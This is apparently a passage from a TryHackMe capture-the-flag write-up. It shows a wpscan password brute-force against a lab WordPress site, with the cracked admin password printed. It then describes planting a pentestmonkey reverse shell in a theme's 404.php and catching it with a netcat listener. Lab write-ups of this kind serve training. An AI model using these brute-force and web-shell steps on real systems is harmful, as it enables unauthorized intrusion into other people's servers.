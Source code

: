 ```shell
$ wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt
 
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                        
Trying admin / lizzy Time: 00:02:01 <
```

Found a password !!!!!!!

![11 were in](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/3b258469-9f3b-48dc-aa37-175b289bb748)

We're In !!!!!!

## 2. Wordpress Reverse Shell

In addition to obtaining the account info, we tried login to the SSH and the phpmyadmin but failed to get in. 

But in any case, it seems we can edit some theme files and update them accordingly. We can now perform a reverse shell via the 404.php. 

![12   404 php](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/09934549-196b-4fbb-ab12-c47c7b1b9578)

We Replace the code with a reverse shell code by pentestingmonkey; changing the ports and the Listener IP address to our own  

![13 resver info change](https://github.com/Nath28m/CTF-writeups-tryhackme/assets/115990830/ae6bdb3d-3e31-4c99-b48a-0b78cd9ef16f)

Once completed, We started up a netcat listener, update the code and in order to execute the code we insert the following command on the url 

http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php

```shell
$ nc -lvnp 4444 
listening on [any] 4444 ...
connect to [My IP] from (UNKNOWN) [10.10.42.84] 42942
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:33:09 up 10 min,  0 users,  load average: 0.00, 0.11, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
There we go !!!

```shell
$ whoami
www-data
```
## 3. Privilege Escalation (User) 
